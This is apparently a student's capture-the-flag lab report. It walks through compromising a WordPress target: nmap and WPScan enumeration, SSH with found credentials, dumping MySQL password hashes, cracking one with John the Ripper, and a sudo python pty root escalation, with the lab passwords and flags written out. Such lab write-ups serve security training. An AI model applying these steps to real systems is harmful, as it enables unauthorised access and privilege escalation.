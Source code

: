 ﻿Joaquin Serrano

# Red Team: Summary of Operations

### Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
Find the version of the service running on port 192.168.1.110:
$ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

This scan identifies the services below as potential points of entry:

- Target 1 -Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:

- Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)

### Exploitation
   * dirb returns the enumerated directories found within the target URL
![](https://github.com/y2keno/final_project/blob/2b18992a598038337b3eea06eb8e762ca11ae9a6/Final_Red_Team/images/image1.png)
![](https://github.com/y2keno/final_project/blob/9daf1cc299e38973b8392e18e94f21011da9d766/Final_Red_Team/images/image10.png)

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

- Target 1
   * flag1.txt: b9bbcb33e11b80be759c4e844


      * Exploit Used
         * WPScan to enumerate users of the Target 1 WordPress site
         * SSH using Michael’s credentials, Flag 1 was found
         * Flag 1 was found in /var/www in the HTML folder


- Kali Linux Command: 
$ wpscan -u http://192.168.1.110/wordpress -eu
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image2.png)
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image16.png)
![](https://github.com/y2keno/final_project/blob/dbc3bb6c5a0d8ced95df9e13162e2d82bcd9a675/Final_Red_Team/images/image22.png)

  

  



   * flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


   * Exploit used:
         * Continuation of exploit from Target 1. 
         * SSH using Michael’s credentials, Flag 2 was found. 
         * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 
Kali Linux Commands: 
      * $ ssh michael@192.168.1.110
      * pwd
      * cd var/www
      * ls -l
      * cat flag2.txt
  

  

* Flag 3: afc01ab56b50591e7dccf93122770cd2


* Exploit used: 
   * Continuation of Exploit from Target 1. 
* Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
  





Kali Linux Command: $ mysql -u root -p
* Password: R@v3nSecurity  Host: 127.0.0.1
* Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
* show databases;
* use wordpress; 
* show tables;
* Select * from wp_users; 




  



  



  

  

  

* Flag 4: 715dea6c055b9fe3337544932f2941ce
* Exploit used:
   * Unsalted password hash and privilege escalation with Python
* Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   * Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   * Copied the username and password hash for Steven. Saved the file and named it  hash.txt


* Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;
  

  

* Utilized John the Ripper to crack the password hash from the hash.txt file.
* Kali Linux command: 
   * $ john hash
  

* Steven Password cracked: pink84
  

* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
  

* Use python to gain root privileges
  

* cd root
* ls
* cat flag4.txt
* Captured Flag4